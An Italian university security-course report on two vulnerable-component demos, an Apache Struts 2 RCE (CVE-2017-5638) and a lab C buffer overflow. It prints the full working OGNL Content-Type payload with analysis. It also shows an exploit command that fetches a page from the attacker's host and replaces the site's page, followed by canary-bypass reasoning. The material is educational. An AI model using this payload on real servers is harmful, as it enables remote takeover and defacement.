



# Repository delle Demo

### [RCE Apache Struts 2](https://github.com/Xernary/CVE-2017-5638-POC)

### [BOF C library](https://github.com/Xernary/OWASP-A06-BOF)

</br>
</br>


# Writeup

</br>
 
## Indice

### [Title Page](https://github.com/Xernary/internet-security-project/tree/master?tab=readme-ov-file#1-title-page)
### [Abstract](https://github.com/Xernary/internet-security-project/tree/master?tab=readme-ov-file#2-abstract)
### [Introduzione](https://github.com/Xernary/internet-security-project/tree/master?tab=readme-ov-file#3-introduzione)
### [Overview delle Vulnerabilità](https://github.com/Xernary/internet-security-project/tree/master?tab=readme-ov-file#4-overview-delle-vulnerabilità)
### [Impatto e Conseguenze](https://github.com/Xernary/internet-security-project/tree/master?tab=readme-ov-file#5-impatto-e-conseguenze)
### [Exploitation delle Vulnerabilità](https://github.com/Xernary/internet-security-project/tree/master?tab=readme-ov-file#6-exploitation-delle-vulnerabilità)
### [Mitigazione e Prevenzione](https://github.com/Xernary/internet-security-project/tree/master?tab=readme-ov-file#7-mitigazione-e-prevenzione)
### [Conclusione](https://github.com/Xernary/internet-security-project/tree/master?tab=readme-ov-file#8-conclusione)
### [Fonti](https://github.com/Xernary/internet-security-project/tree/master?tab=readme-ov-file#9-fonti)

</br>
</br>


# Progetto Internet Security

</br>


## A06:2021-Vulnerable and Outdated Components

</br>

## 1. Title Page

Titolo: A06:2021-Vulnerable and Outdated Components

Nome: Nicola Giuffrida

Università: Università degli Studi di Catania

Corso: Internet Security

Professore: Giampaolo Bella

Data: 17/01/2025

</br>
</br>


## 2. Abstract 

Questo report tratta due esempi di vulnerabilità di tipo A06:2021-Vulnerable and Outdated Components ovvero casi in cui è un singolo componente (all'interno di un sistema più o meno complesso) ad essere vulnerabile o obsoleto. 
Le due vulnerabilità trattate in questo report sono: la CVE-2017-5638 ovvero una RCE in un componente vulnerabile in Apache Struts 2, e poi una esemplificazione di un caso studio differente creato da me ovvero l'ottenimento di una remote shell su un server remoto causato dall'utilizzo da parte dello stesso di una libreria obsoleta (in questo caso il servizio web è scritto interamente in C ed è accessibile tramite shell).
Entrambi i casi studio trattati costituiscono un elevato rischio per i servizi coinvolti dato che l'expoit delle vulnerabiltà permette all'attaccante un accesso ai server non facilmente rilevabile e, nel caso dell'ottenimento di una root shell, un controllo totale di essi. Tutto ciò evidenzia come anche una vulnerabilità di un piccolo componente possa causare gravi danni. Uno degli obiettivi di questo report è infatti quello di analizzare come difendersi da questo tipo di attacchi per mezzo di zero trust.

</br>
</br>


## 3. Introduzione 

Una vulnerabilità del software è un qualunque errore nella scrittura del codice che causa un comportamento inaspettato del programma. Le vulnerabilità possono essere di vari tipi e di varie entità. A volte tali bug all'interno del codice sono così ben nascosti da non essere scoperti per anni. Ma è proprio di queste vulnerabilità non ancora scoperte di cui gli attaccanti si servono per accedere a dati privati, causare disservizi o addirittura prendere il controllo dell'intero server remoto. Comprendere come questi attacchi avvengano e come gli attaccanti utilizzino le vulnerabilità del codice permette di prevenire che attacchi simili si ripetano, scrivendo codice più sicuro e osservando semplici best practices.
All'interno di questo report vengono analizzate due tipi di vulnerabilità: Remote Code Execution e Buffer Overflow. 

Remote Code Execution o RCE consiste nell'esecuzione di codice arbitrario da parte dell'attaccante all'interno di una macchina remota. Ciò significa che l'attaccante ha pieno controllo sulla macchina remota. Solitamente questa vulnerabilità è causata da un errato (o addirittura assente) sanitizzazione dell'input fornito dall'utente. Anche se la vulnerabilità in sè viene chiamata RCE nei siti ufficiali che trattano e documentano le CVE, in realtà ciò che causa RCE è proprio una vulnerabilità legata alla sanitizzazione dell'input che è chiamata Input Validation Vulnerability.

Un Buffer Overflow o BOF avviene quando una scrittura all'interno di un buffer supera la dimensione dello stesso e quindi scrive su aree di memoria che non appartengono a tale buffer. Tale corruzione di memoria può causare un ampio spettro di comportamenti inaspettati del programma: dal semplice crash all'ottenimento di una shell con permessi di root sulla macchina remota.
L'obiettivo di questo report è quello di spiegare, analizzare e dissezionare tali vulnerabilità nel dettaglio e fornire strategie di mitigazioni di esse.

</br>
</br>


## 4. Overview delle Vulnerabilità 

RCE può essere ottenuta in vari modi, in questo caso è causata da una errata sanitizzazione dell'output fornito dall'utente. Quindi alla base della Remote Code Execution (o anche Remote Command Execution) c'è un problema di mancata validazione dell'input.
Esistono moltissime tipologia di RCE quindi per spiegarla farò riferimento al caso della CVE-2017-5638 in particolare. 
Il framework Apache Struts 2 è utilizzato per creare web app ed è basato sul linguaggio Java. Uno dei suoi componenti è chiamato Jakarta Multiparser e come si evince dal nome esso è utilizzato come parser di input di varia natura. La vulnerabilità sta proprio all'interno di questo componente. In particolare si basa su una command injection tramite una espressione OGNL in una POST di cui parlerò più avanti nel report. 
Il Jakarta Multiparser viene usato, tra le varia cose, anche come parser delle richieste HTTP (come GET e POST) che arrivano al server. Nel caso la richiesta sia una POST, la prima cosa che il parser verifica è la validità del `Content-Type` dell'header della richiesta. Se quest'ultimo non contiene un valore valido il parser lancia un errore. Il problema sta nel modo in cui il Jakarta Multiparser genera il messaggio di errore. Questo perchè per creare tale messaggio il parser utilizza un metodo che si server del valore del Content-Type inserito. Tutto ciò viene fatto per generare un messaggio di errore che sia il più preciso e utile possibile, ma la stringa contenuta nel `Content-Type` non viene sanitizzata prima di essere utilizzata all'interno del codice. Nel caso in cui viene inserita una espressione OGNL all'interno del `Content-Type`, tale stringa verrà valutata come espressione e verrà quindi eseguita all'interno del programma.
Più avanti nella relazione approfondirò la sintassi e l'utilizzo delle espressioni OGNL (Object Graph Navigation Library) all'interno del framework Apache Struts 2 e inoltre spiegherò come costruire un payload valido che permetta di ottenere RCE.

Per quanto riguarda il buffer overflow, come già detto, esso è causato da una scrittura oltre il limite del buffer assegnato, andando cioè a sovrascrivere altre aree di memoria. Questo succede perchè quando avviene la scrittura nel buffer non viene controllata la grandezza dell'input da scrivere, oppure la grandezza è errata e quindi risulta maggiore di quella effettiva del buffer. Moltissimi attacchi partono proprio da un semplice buffer overflow. E' una delle vulnerabilità più diffuse e conosciute in assoluto.
Possiamo verificare la presenza di un BOF all'interno di un programma inserendo un input di dimensioni molto grandi. 



Fig. 1

In questa immagine viene eseguito un programma che stampa ciò che viene inserito dall'utente. Inserendo un input di grandi dimensioni (molte 'a' in questo caso) uno specifico messaggio di errore viene generato e il programma termina: il programma contiene un BOF. Prima di spiegare il significato dei messaggi stampati dal programma, è utile capire cosa stia succedendo nella memoria del programma in esecuzione.


Fig. 2

La seguente figura rappresenta una parte dello stack di un programma in esecuzione. Quando viene chiamata una funzione, un nuovo stack frame viene creato. Avviene quindi il push nello stack dei valori Base Pointer (non presenta in figura), Return Address e Canary; successivamente viene fatto spazio nello stack per le variabili locali della funzione appena chiamata (Local Variables in figura). 
Nel momento in cui viene inserito un input maggiore del buffer allocato, ovvero un input che è più grande dell'area delle variabili locali in questo caso (supponendo che il buffer sia l'unica variabile locale della funzione), avviene un vero e proprio "overflow" dell'input che fuoriesce dal buffer e sovrascrive le celle di memoria adiacenti. Come è osservabile in figura le aree di memoria immediatamente successive alle variabili locali sono quelle riservate al Canary e al Return Address. Quest'ultimo è l'indirizzo che è stato salvato precedentemente sullo stack e che permette al programma di continuare l'esecuzione una volta che la funzione è stata eseguita. L'esecuzione del programma continuerà proprio da quell'indirizzo quando, all'epilogo della funzione, l'istruzione assembly `ret` viene eseguita. 
Il Canary invece è un valore che viene inserito tra il Return Address e l'area riservata alle variabili locali ad ogni esecuzione di una funzione. E' un sistema di protezione il cui scopo è rilevare e impedire i BOF. Il suo funzionamento è il seguente: ogni volta che viene creato uno stack frame, una copia del valore del Canary (differente tra diverse esecuzioni ma uguale ovunque in memoria) viene pushata all'interno dello stack, appena sopra il Return Address della funzione (nel caso in cui lo stack cresca verso l'alto come in figura). Nell'epilogo della funzione, poco prima dell'istruzione `ret`, viene chiamata una routine che verifica che il valore presente all'interno dello stack sia lo stesso di quello inserito in precedenza. Nel caso in cui questo controllo fallisce il programma viene terminato e viene stampato il messaggio di errore "stack smashing detected" presente in Fig. 1. 
L'obiettivo di chi si serve di un BOF in modo malevolo è spesso quello di reindirizzare l'esecuzione del programma da qualche altra parte. Supponendo che il Canary non sia presente o ci sia un modo di raggirarlo, l'attaccante riempie l'intero buffer di caratteri qualsisasi e sovrascrive il Return Address con un valore arbitrario. Come detto prima, quando viene eseguita l'istruzione `ret` dell'epilogo della funzione il programma "salta" all'istruzione che si trova all'indirizzo di memoria puntato dal Return Address nello stack. Questo valore è stato sovrascritto ed è quindi controllato dall'attaccante, che può indirizzare l'esecuzione del programma in qualunque punto egli voglia non appena la funzione finisce di eseguire.
Tutto ciò detto sopra vale se l'architettura per cui è stato compilato l'eseguibile è 32 bit. Nel caso di architettura 64 bit vi sono alcune differenze sulle convenzioni di chiamata delle funzioni che per semplicità non sono approfondite in questo report.
Il problema di come effettuare un tale attacco in pratica, che comprende come raggirare il Canary e altre protezioni, come sapere a quale indirizzo "saltare" e come costruire un payload efficace, verrà trattato più avanti in questo report.

</br>
</br>


## 5. Impatto e Conseguenze 

Essere vulnerabili ad un Buffer Overflow o a Remote Code Execution può in entrambi i casi avere conseguenze distruttive. In generale i danni causati da un BOF (nel caso in cui si ottenga una remote shell) e RCE sono molto simili.
Nel caso di RCE le conseguenze sono molto ovvie e dipendono dalla tipologia della macchina vulnerabile. Se il server ha permessi elevati all'interno dell'infrastruttura di conseguenza il danno sarà maggiore e meno contenuto. Solitamente l'utilizzo di RCE è leggermente più tedioso rispetto all'utilizzo di una remote shell perchè i comandi devono essere spesso inseriti uno ad uno e l'output (se viene visualizzato) compara interamente alla fine dell'esecuzione dei comandi, mentre una remote shell è molto più interattiva e intuitiva da usare. 

Come già accennato, il BOF puo causare danni di diversa intensità in base a cosa l'attaccante riesce a fare sfruttando la vulnerabilità. Nel caso più fortunato il BOF, anche se presente, non è explotabile perchè ad esempio l'attaccante non possiede l'eseguibile del servizio remoto o magari per fare un attacco efficace ha bisogno di servirsi della libc utilizzata dal programma (attacco return-to-libc) ma non ne conosce la versione esatta. L'eseguibile può anche essere stato compilato con tutte le protezioni e l'attaccante non riesce a superarle. Tutti i casi elencati rappresentano situazioni in cui anche se un BOF è presente, non ha impatti negativi oltre ad un possibile crash. 
Ben diverse sono le conseguenze nel caso in cui l'attaccante riesca a sfruttare il BOF. Questo puo accadere per varie ragioni: da un leak del file eseguibile non voluto o dalla presenza di una seconda vulnerabilità alla scarsa presenza di protezioni in fase di compilazione. In questo caso l'attaccante riesce a reindirizzare l'esecuzione del programma e, ad esempio, ottenere una shell sulla macchina remota il che è quasi identico all'ottenere RCE. Ma anche qui bisogna differenziare due scenari: il caso in cui il programma è stato eseguito con permessi di root e il caso in cui il programma ha invece permessi limitati. Nel primo caso l'attaccante ha pieno potere sulla macchina: può leggere e scrivere qualunque file, disabilitare ulteriori protezioni del server come firewall e IDS e fare tutto ciò che un vero amministratore della macchina può fare. Nel caso in cui il programma abbia solo permessi parziali invece le libertà dell'attaccante sono ben ristrette: non possiede permessi di root e non ha quindi accesso a funzionalità avanzate, può leggere e scrivere un numero più ristretto di file. Ma a volte anche in questo scenario l'attaccante può arrecare gravi danni, dipende molto dal setup della macchina e dal tipo di servizio exploitato.

</br>
</br>


## 6. Exploitation delle Vulnerabilità 

### Setup Demo

Per entrambe le demo ho creato due diversi container docker. Ho deciso di utilizzare Ubuntu e Debian come sistemi operativi dei container dato che sono le distribuzione predilette dalla maggior parte dei web server. Così facendo le demo sono portatili, non occupano grande spazio di archiviazione e sono riproducibili su qualsiasi macchina linux con un paio di comandi, basta avere installato Docker e avere il Dockerfile e gli altri file e script utilizzati.

#### Demo 1


Fig. 3 - Makefile (RCE in Apache Strut 2 Demo)

In figura è presente il Dockerfile della Demo per la CVE-2017-5638. Prima di tutto viene caricata l'immagine di Debian versione Bullseye dal repository Docker, poi vengono installate le dipendenze. Le righe da 8 a 11 copiano ed eseguono uno script (`server-setup-script.sh`) interamente scritto da me. Per scriverlo mi sono basato su una guida online e ho poi reso il processo totalmente automatizzato tramite l'esecuzione di un semplice script. Lo script eseguito all'interno del container Docker si occupa di installare tutti i componenti che sono necessari per il funzionamento del framework Apache Struts 2 e inoltre ne effettua il setup per renderlo accessibile. Il processo se fatto manualmente richiederebbe molto tempo data la complessità del framework e le numerose componenti richieste. 
Lo script si occupa delle seguenti:
- Installazione e setup di `Oracle`
- Installazione e setup di `Tomcat`
- Installazione della esatta versione vulnerabile di `Struts 2`
- Installazione e setup di `Maven`
- Configurazione e deployment di una `web app` per il testing della CVE

Infine all'interno del Dockerfile viene aperta la porta 8080 del server in modo da rendere accessibile la web app e quando il container è eseguito viene lanciato Tomcat (riga 17).

Per creare l'immagine dal Dockerfile situato nella directory attuale bisogna eseguire il comando:
- `docker build --tag 'vuln-server' .`
Per creare il container ed eseguirlo bisogna eseguire il comando:
-  `docker run -p 8080:8080 -it vuln-server `
Se si vuole eseguire il container stoppato in precedenza è utile il seguente comando:
- `sudo docker start -i <container-id>`
dove `container-id` è l'id del container che si vuole eseguire.

L'unico step che è necessario fare manualmente è il deploy della web app creata dallo script. Il breve procedimento è comunque descritto all'interno dello script tramite commenti e consiste in:
- Scaricare tramite una GET il [seguente](
https://github.com/nixawk/labs/blob/master/CVE-2017-5638/struts2_2.3.15.1-showcase.war) file .war
- Dalla la macchina host (non il container) andare su 
http://IP:8080/manager sostituendo "IP" con l'indirizzo del server
- Inserire le seguenti credenziali: Username "admin", Password "admin"
- Selezionare il file .war scaricato e cliccare su "Deploy"

Adesso il processo è completo ed è possibile accedere alla web app pubblicata all'indirizzo:

http://localhost:8080/struts2_2.3.15.1-showcase/showcase.action. 

#### Demo 2


Fig. 4 - Makefile (BOF in C library Demo)

La seguente figura rappresenta il Dockerfile dell'altro dei due container (entrambi sono molto simili). Anche qui dopo aver scaricato l'immagine di Ubuntu vengono installate le dipendenze necessarie al server per funzionare. Subito dopo viene copiato e compilato il programma in C ovvero il servizio fornito dal server e vengono esposte due porte. L'ultima riga mette il server in ascolto sulla porta 5555. 

Per creare l'immagine dal Dockerfile situato nella directory attuale bisogna eseguire il comando:
- `docker build --tag 'rop-server' .`
Per creare il container ed eseguirlo bisogna eseguire il comando:
- `docker run --network=host -it rop-server`
E' importante specificare che il container abbia un indirizzo della LAN dell'host ma che non sia lo stesso indirizzo dell'host tramite l'opzione `--network=host`. Il motivo verrà approfondito più avanti.
Se si vuole eseguire il container stoppato in precedenza è utile il segente comando:
- `sudo docker start -i <container-id>`
dove "container-id" è l'id del container che si vuole eseguire.

Dopo avere creato ed eseguito il container è necessario installare PHP manualmente dall' interno del container e far partire il server, tramite i seguenti comandi:
- `apt install php`
- `php -S <server-ip>:8080 &`
dove `server-ip` è l'indirizzo ip del container.
Il setup del server PHP rappresenta una potenziale porta aperta del server in ascolto ma che non fornisce nessun servizio. Può sembrare un dettaglio superfluo ma tornerà utile in seguito.

### Exploit

#### Demo 1

La prima Demo riguarda appunto la CVE-2017-5638 ovvero una RCE in Apache Struts 2. Per comprendere a fondo l'exploit occorre prima avere una conoscenza della sintassi di espressioni OGNL utilizzate dal framework.

#### Sintassi OGNL

L'OGNL è un linguaggio utilizzato per eseguire il `set` e `get` di proprietà di oggetti Java.
Il suo uso più comune è quello di fare da tramite nel trasformare i valori da elementi GUI/componenti web a effettivi valori di proprietà di oggetti Java.

###### Parti di una Espressione
L'unità fondamentale di una espressione OGNL sono le chain. Esse solitamente consistono in 3 parti: Property Names, Method Calls e Array Indices. Ogni espressione viene valutata all'interno del context dell'oggetto attuale. Una catena usa sempre l'oggetto del link precedente come oggetto per la successiva. 

`name.toCharArray()[0].numericValue.toString()`

Questa espressione:
- estrae la proprietà `name` dall'oggetto iniziale (che l'utente fornisce tramite il context)
- chiama il metodo `toCharArray()` nella stringa risultante (oggetto del link precedente ovvero `String`)
- estrae il primo carattere dall'array risultante (oggetto del link precedente ovvero `CharArray`)
- estrae la proprietà `numericValue` da quel carattere (oggetto del link precedente ovvero `Char`)
- chiama il metodo `toString()` nell'intero risultante (oggetto del link precedente ovvero `Integer`)

Usare una parentesizzazione dopo un punto `.` vuol dire usare l'attuale oggetto (prima del `.`) come oggetto di valutazione all'interno della parentesizzazione, ad esempio in questo caso:

`headline.parent.(ensureLoaded(), name)`

dopo aver estratto la proprietà `headline` e poi `parent` da essa, viene chiamato il metodo `ensureLoaded()` **sull'oggetto parent ritornato prima** e poi ritorna il nome sempre dell'oggetto parent.

###### Liste
Per creare una lista di oggetti, rinchiuderli tra parentesi graffe. L'espressione 

`name in { null,"Untitled" }`

testa se la proprietà `name` dell'oggetto iniziale sia `null` o `Untitled`. In particolare tale espressione crea una istanza dell'interfaccia `List`.

###### Arrays
Per creare un array nativo (array di `int` o `Integer`) ci sono due metodi:

- Tramite una Lista esistente

    `new int[] { 1, 2, 3 }`

- Fornendo solo la lunghezza

    `new int[5]` (crea un array di tutti 0)

###### Mappe
`#{ "foo" : "foo value", "bar" : "bar value" }`

crea una Mappa con mappings per `"foo"` e `"bar"`.

Nel caso si voglia **specificare una specifica classe**, essa si può specificare prima delle parentesi graffe:

`#@java.util.LinkedHashMap@{ "foo" : "foo value", "bar" : "bar value" }`

###### Variabili
Le variabili sono sempre precedute dal simbolo `#`
Sono dichiarate nel seguente modo:

`#myvar=10`

per riferirsi alla stessa variabile da quel momento basta usare:

`#myvar`

Inoltre la variabile `#context` contiene la mappa di variabili.

#### Analisi del Payload

Una volta compresa la sintassi OGNL ho effettuato una analisi del payload contenuto all'interno del `Content-Type` che causa l'ottenimento di RCE.

Il payload è il seguente:
```
%{(#_='multipart/form-data').
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).
(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
(#ognlUtil.getExcludedPackageNames().clear()).
(#ognlUtil.getExcludedClasses().clear()).
(#context.setMemberAccess(#dm)))).
(#cmd='%s'). % cmd
(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).
(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).
(#p=new java.lang.ProcessBuilder(#cmds))."
(#p.redirectErrorStream(true)).(#process=#p.start()).
(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).
(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).
(#ros.flush())}
```

La funzione di ogni parte del payload è la seguente: 

 `%{(#_='multipart/form-data').`

- Setta la variabile `#_` a 'multipart/form-data'
- `%{}` indica la valutazione del testo all'interno come espressione OGNL al framework


```
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).
(#_memberAccess?(#_memberAccess=#dm):
```

- Setta l'accesso delle classi a `DEFAULT_MEMBER_ACCESS` in modo da potervi accedere successivamente


```
((#container=#context['com.opensymphony.xwork2.ActionContext.container']).
(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
(#ognlUtil.getExcludedPackageNames().clear()).
(#ognlUtil.getExcludedClasses().clear()).
```

- Una volta che è possibile accedere alle classi, preleva l'istanza dell'oggetto `com.opensymphony.xwork2.ognl.OgnlUtil` e invocando il metodo `clear()` sulle liste dei package e classi escluse (ovvero blacklistati) di tale oggetto, le svuota e quindi bypassa il blacklisting di alcuni package e classi esclusi come ad esempio `System`


`(#context.setMemberAccess(#dm)))).`

- Abilita altri permessi in questo caso della variabile `#context`


`(#cmd='%s'). % cmd`

- Setta la variabile `#cmd` al comando dato in input allo script python (si vedrà più avanti)


```
(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).
(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).
```

- Setta la variabile `#cmds` a due diversi valori adattando il comando dopo aver verificato se ci si trova in un ambiente Windows o Linux


```
(#p=new java.lang.ProcessBuilder(#cmds))."
(#p.redirectErrorStream(true)).(#process=#p.start()).
(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).
(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).
(#ros.flush())}
```

- Esegue il comando completo (contenuto in `#cmds`) creando un nuovo processo tramite la classe `ProcessBuilder`
- Una volta eseguito il comando, copia la Stream del processo con quella della risposta del server in modo da ricevere l'output del comando eseguito


#### Python Script

Ho utilizzato il payload analizzato fin ora all'interno di uno script python che si occupa di effettuare una richiesta POST al server il cui Content-Type contiene il suddetto payload malevolo.
Lo script che ho creato permette di specificare qualunque comando che verrà inserito all'interno del payload (nella variabile `#cmd` analizzata prima) e quindi eseguito sul server remoto. L'output di questo comando viene poi stampato dallo script.

Durante la programmazione dello script ho dovuto risolvere un problema inaspettato. In pratica quando l'host riceveva la risposta alla POST dal server, lo script lanciava un'eccezione. L'errore era legato ai Chunk ricevuti dallo script da parte del server. Tali Chunk risultavano corrotti o incompleti e questo causava la terminazione dello script. 
Ho risolto il problema con il seguente codice:


Fig. 5 - exploit.py

Premesso che il problema era un Chunk incompleto o mal formato ho deciso di racchiudere la ricezione dei Chunk all'interno di un blocco `try except`. In questo modo nel caso in cui un errore del tipo `IncompleteRead` è generato, viene prelevata soltanto la pagina parziale ovvero l'insieme dei Chunk letti fino a quel momento come si osserva nella riga 37. Tale patch ha risolto il problema e l'output viene stampato senza alcun problema.

La sintassi per l'utilizzo dell'exploit è la seguente:
- `exploit.py <url> <cmd>`
dove `url` è quello del server da attaccare e `cmd` è il comando che si vuole eseguire su tale server.

L'esecuzione di un semplice comando `ls` produce il seguente output:


Fig. 6 

Lo script stampa tutti i file contenuti all'interno di una cartella del server remoto.

Una volta craftato lo script che esegue l'exploit ho deciso di effettuare un attacco di sostituzione della pagina web con un'altra scaricata direttamente dalla macchina dell'attaccante. In questo modo si ha un effettivo riscontro visuale sulle conseguenze dell'attacco visto che basta aggiornare la pagina web dopo aver lanciato lo script per vedere che la pagina del sito è cambiata. 
Per attuare questo tipo di attacco la prima cosa che ho fatto è stata creare un semplice server PHP (sulla macchina che attacca il server) che funge appunto da server da cui il server attaccato scarica la pagina web malevola. 
Ho quindi creato una semplice pagina web (in formato .jsp) che verrà sostituita a quella standard del server remoto e ho chiamato tale file pwn-page.jsp. In seguito ho eseguito il seguente comando nella stessa cartella in cui pwn-page.jsp è presente:
- `php -S <host-ip>:5555`
dove `host-ip` è l'indirizzo IP della macchina locale.

Fatto ciò ho eseguito lo script in questo modo:
```
python exploit.py localhost:8080/struts2_2.3.15.1-showcase/showcase.action 'curl -O 
http://<host-ip>:5555/pwn-page.jsp; source /root/.bashrc; mv ./pwn-page.jsp $CATALINA_HOME/webapps/struts2_2.3.15.1-showcase/showcase.jsp;'
```
dove:
- `python`: esegue l'exploit contenente l'espressione OGNL 
- `curl`: scarica il file pwn-page.jsp dal server php "remoto" che ho creato
- `source`: preleva la variabile $CATALINA_HOME dal file .bashrc
- `mv`: scambia il file showcase.jsp con il file pwn-page.jsp scaricato
- `host-ip`: IP della macchina locale

Il comando scarica il file pwn-page.jsp direttamente dal server PHP che ho creato sulla macchina locale, preleva la variabile di sistema `$CATALINA_HOME` dal file `.bashrc` e sostituisce il file scaricato a quello che il server utilizza, servendosi della variabile `$CATALINA_HOME` prelevata in precedenza contenente parte del path al file da sostituire.

Prima dell'esecuzione dello script:
</br>


Fig. 7 - 
http://localhost:8080/struts2_2.3.15.1-showcase/showcase.action

Dopo l'esecuzione dello script:
</br>


Fig. 8 - 
http://localhost:8080/struts2_2.3.15.1-showcase/showcase.action

#### Demo 2

L'esemplificazione da me creata riguarda un Buffer Overflow in un eseguibile scritto in C che rappresenta un servizio su un server remoto. Il servizio in questione è un semplice "echo" ovvero il server ripete tutto ciò che l'utente inserisce. 
Questa fase del report non tratterà il source code del suddetto servizio, che verrà analizzato successivamente. La sezione tratterà esclusivamente l'exploit della vulnerabilità dal punto di vista dell'attaccante che appunto non possiede il source. Questo attacco è stato infatti attuato avendo soltanto l'eseguibile (o ELF) del programma a disposizione e altre informazioni che il server fornisce.

La prima cosa che ho fatto è stata controllare le protezioni presenti nell'eseguibile tramite il comando `checksec`:


Fig. 9

Si nota subito come quasi tutte le protezioni siano abilitate tranne il PIE e il fatto che l'eseguibile non sia stripped.
Ecco un breve accenno alle protezioni più rilevanti:
- Canary: già spiegato in precedenza.
- NX: NX sta per No eXecute e si riferisce al fatto che lo stack del processo non è eseguibile.
- PIE: significa Position Indipendent Executable e se abilitato randomizza l'indirizzo di memoria in cui il programma viene mappato ad ogni esecuzione.
Il fatto che NX sia abilitato non protegge da BOF ma è efficace contro un altro attacco chiamato Shellcode Injection. Il Canary invece rappresenta un problema, come già visto nella sezione precedente.

Ho utilizzato pwndbg (un debugger come gdb ma con funzioni aggiuntive) per fare analisi dinamica dell'eseguibile e pwntools (libreria python utile per scrivere exploit) per scrivere lo script che si interfaccia col servizio del server remoto (o anche localmente) e che quando sarà ultimato mi fornirà la shell sulla macchina remota. Utilizzando questi tool è possibile testare lo script lavorando localmente sull'eseguibile e connettersi al server remoto solo quando l'exploit è completo. 

Per prima cosa ho ottenuto la grandezza del buffer allocato disassemblando l'eseguibile tramite pwndbg. Eseguo quindi l'eseguibile con pwndbg procedendo istruzione per istruzione tramite il comando `ni` e mi accorgo di essere all'interno di una funzione chiamata `start_echo` subito prima che il programma mi chieda di inserire un input: probabilmente è all'interno di questa funzione che il buffer vulnerabile viene allocato. 
Confermo questa ipotesi disassemblando la funzione in questione tramite `disass start_echo` sempre all'interno di pwndbg.


Fig. 10 - pwndbg

La figura sopra rappresenta parte della funzione `start_echo` disassemblata. L'istruzione `lea eax,[ebp-0x2c]` carica in eax l'indirizzo ottenuto sottraendo al valore di ebp 0x2c ovvero 44 bytes. Subito dopo tale indirizzo viene pushato sullo stack e la funzione `get_input` viene chiamata. Queste istruzioni implementano il passaggio di parametri alla suddetta funzione. Si può dedurre dal nome di tale funzione che il parametro passato è proprio il buffer che l'utente riempie con un input. Quindi ottengo che l'offset tra il buffer e il Base Pointer salvato sullo stack è di 44 bytes. Il Base Pointer viene sempre salvato immediatamente prima del Return Address sullo stack. Quindi osservando la figura 2 si deduce che il Return Address si trova ad un offset di 48 bytes (44 + 4 del Base Pointer) rispetto all'inizio del buffer. Il layout finale dello stack è quindi il seguente: Local Variables (40 bytes) - Canary (4 bytes) - Base Pointer (4 bytes) - Return Address (4 bytes).

Adesso però serve un modo per bypassare il Canary. Come già detto prima, è un valore posizionato prima del Return Address che non ne permette la sovrascrizione, che è proprio il mio obiettivo. Serve un leak, ovvero un modo per costringere il programma a stampare il valore del Canary a run-time. 
Il programma ha un ciclo interno di due, ovvero l'operazione di inserimento e stampa dell'input si ripete due volte. Se ci fosse un modo di ottenere il valore del Canary durante il primo ciclo si potrebbe riutilizzare nel secondo ciclo e ottenere un BOF funzionante. L'idea è quella di sovrascrivere, assieme al buffer e al Return Address, anche il Canary con il valore ottenuto in precedenza dal leak. In questo modo il programma passerà il check del Canary e sarà possibile ridirezionare l'esecuzione.

##### Format String Vulnerability & Canary bypass

La format string vulnerability è una vulnerabilità che permette di stampare valori dallo stack. E' una vulnerabilità all'interno della funzione `printf` di C. La `printf` è usata per stampare output formattato tramite una sintassi particolare. Ad esempio il seguente codice:

```
char* str = "Nicola";
printf("Ciao %s", str);
```

stampa la stringa "Ciao Nicola". 

In sintesi il funzionamento interno della `printf` è il seguente: 
- Il primo parametro passato è una format string e i successivi parametri (se presenti) sono i valori da inserire all'interno della format string
- La format string viene attraversata carattere per carattere fino a quando non si incontra un carattere '%'. I caratteri successivi al '%' indicano il tipo di variabile da inserire in quel punto (string, int, ecc)
- Una volta che '%' viene incontrato la funzione preleva il successivo parametro passato e lo copia all'interno della format string (primo parametro) al posto del '%s' (visto che in questo caso il secondo parametro è una stringa). Questo si ripete un certo numero variabile di volte, in base a quanti '%' sono presenti nella format string, fino a quando si raggiunge la fine della stringa

La vulnerabilità risiede in un utilizzo scorretto della funzione. Nel caso non si voglia stampare una stringa formattata ma una semplice stringa statica esistono due modi per farlo, uno corretto e un altro problematico.
